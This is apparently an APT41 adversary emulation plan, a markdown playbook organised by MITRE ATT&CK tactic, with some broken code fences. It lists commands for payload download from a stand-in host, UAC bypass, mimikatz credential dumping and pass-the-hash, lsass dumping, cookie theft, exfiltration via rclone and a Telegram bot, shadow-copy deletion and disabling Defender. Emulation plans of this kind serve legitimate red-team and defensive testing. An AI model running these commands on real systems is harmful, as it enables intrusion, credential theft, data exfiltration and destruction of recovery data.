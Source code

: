 
## APT41 Emulation Plan

### Initial Access (TA0001)
**T1190 - Exploit Public-Facing Applications**
- Exploited vulnerabilities in:
  - Apache Tomcat Manager
  - JBoss JMX Console
  - Zimbra
- Deployed web shells (ANTSWORD, BLUEBEAM) via RCE exploits
- Leveraged ProxyShell (CVE-2021-34473) for Exchange server access

**T1078 - Valid Accounts**
- Used stolen credentials from:
  - Google Workspace
  - Office365
  - VPN accounts
- Pivoted from cloud accounts to internal networks

---

### Execution (TA0002)
**T1059.003 - Windows Command Shell**
```
certutil -urlcache -split -f http://malicious.com/payload.exe C:\temp\payload.exe
rundll32.exe C:\Windows\Temp\malicious.dll,Start

```

```
  

# Privilege Escalation (TA0004)

  

## T1548.002 - Bypass UAC

```
```

reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /d "C:\backdoor.exe"

```

  

## T1055 - Process Injection

```

mimikatz.exe "privilege::debug" "inject::process explorer.exe /payload.bin"

```

  

# Defense Evasion (TA0005)

  

## T1027 - Obfuscation

- AES-256/ChaCha20 encrypted payloads

- Gzip-compressed shellcodes

  

## T1202 - Indirect Command Execution

```

wmic process call create "powershell -exec bypass -File C:\payload.ps1"

```

  

# Credential Access (TA0006)

  

## T1555 - Credentials from Stores

```

vaultcmd.exe /listcreds:"Windows Credentials"

procdump.exe -accepteula -ma lsass.exe lsass.dmp

```

  

## T1003 - OS Credential Dumping

```

sekurlsa::logonPasswords

```

  

# Discovery (TA0007)

  

## T1018 - Remote System Discovery

```

net view /domain

arp -a

systeminfo

```

  

## T1082 - System Info Discovery

```

wmic computersystem get Model,Manufacturer

```

  

# Lateral Movement (TA0008)

  

## T1021 - Remote Services

```

wmic /node:<target_ip> process call create "powershell -exec bypass -File C:\payload.ps1"

```

  

## T1550.002 - Pass the Hash

```

sekurlsa::pth /user:Administrator /domain:target.local /ntlm:<hash>

```

  

# Collection (TA0009)

  

## T1005 - Local System Data

```

copy C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default\Cookies C:\stolen_data

```

  

# Command and Control (TA0011)

  

## T1071 - Application Layer Protocol

- Cobalt Strike with HTTPS/DNS tunneling

- RC4-encrypted payloads

  

## T1095 - Non-Application Protocol

- Custom TCP backdoors

  

# Exfiltration (TA0010)

  

## T1041 - C2 Channel Exfiltration

```

rclone sync C:\stolen_data onedrive:backup --transfers=5 --progress

```

  

## T1567 - Web Service Exfiltration

```

curl -X POST -F "file=@C:\stolen_data.zip" https://api.telegram.org/bot<TOKEN>/sendDocument?chat_id=<ID>

```

  

# Impact (TA0040)

  

## T1490 - Inhibit System Recovery

```

vssadmin delete shadows /all /quiet

```

  

## T1489 - Service Stop

```
sc stop WinDefend

```

  

# Additional Tools & Techniques

  

## Web Shells

  

### ANTSWORD

```
```

whoami

ipconfig /all

net user

powershell -enc <Base64Command>

```

  

### BLUEBEAM

```

GET /admin.php?cmd=whoami

POST /shell.php HTTP/1.1

```

  

## DLL Trojanization

```

%windir%\Microsoft.NET\assembly\GAC_MSIL\System.Data.Trace\v4.0_4.0.0.0__b0<hex_uuid>\<module_name>.dll

```
